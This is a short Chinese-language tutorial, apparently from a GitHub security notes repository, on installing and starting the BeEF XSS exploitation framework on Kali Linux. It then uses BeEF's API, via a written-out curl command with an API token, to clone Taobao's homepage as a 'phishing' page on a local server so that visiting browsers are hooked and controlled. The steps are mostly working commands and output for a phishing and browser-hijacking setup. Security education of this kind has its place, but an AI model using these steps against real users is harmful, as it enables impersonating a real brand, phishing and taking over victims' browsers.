 ## xss漏洞利用工具Beef
### 1、在kali上安装beef
```shell script
sudo apt install beef-xss
```
### 2、配置beef
```shell script
vim /usr/share/beef-xss/config.yaml
```
![image](https://github.com/498946975/Security/blob/master/images/xss_19.png)
### 3、用户名和密码
```shell script
vim /usr/share/beef-xss/config.yaml
```
![image](https://github.com/498946975/Security/blob/master/images/xss_20.png)
### 4、启动beef
```shell script
cd /usr/share/beef-xss 
./beef
```
![image](https://github.com/498946975/Security/blob/master/images/xss_21.png)
![image](https://github.com/498946975/Security/blob/master/images/xss_22.png)

### 5、克隆其他网站，需要用到上面启动时候告诉到apikey
#### 5.1 克隆规则
```shell script
curl -H "Content-Type: application/json; charset=UTF-8" -d '{"url":"<URL of site to clone>", "mount":"<where to mount>"}' -X POST http://<BeEFURL>/api/seng/clone_page? token=<token>
# <URL of site to clone> 需要克隆的网址
# <where to mount> 克隆的⻚面在服务器的哪个路径访问 ,beef的url路径
# <token> 服务启动时的 beef API key
```
#### 5.2 克隆淘宝的首页
```shell script
└─# curl -H "Content-Type: application/json; charset=UTF-8" -d '{"url":"https://www.taobao.com", "mount":"/clone_taobao"}' -X POST http://172.16.120.177:3000/api/seng/clone_page?token=ab06cbe5f38a44607a2a8f3c0a806174b0afcb7b       
{"success":true,"mount":"/clone_taobao"}     
```
#### 5.3 访问"钓鱼"页面
http://172.16.120.177:3000/clone_taobao
![image](https://github.com/498946975/Security/blob/master/images/xss_23.png)
然后在beef上，就可以收到上线可控的浏览器
![image](https://github.com/498946975/Security/blob/master/images/xss_24.png)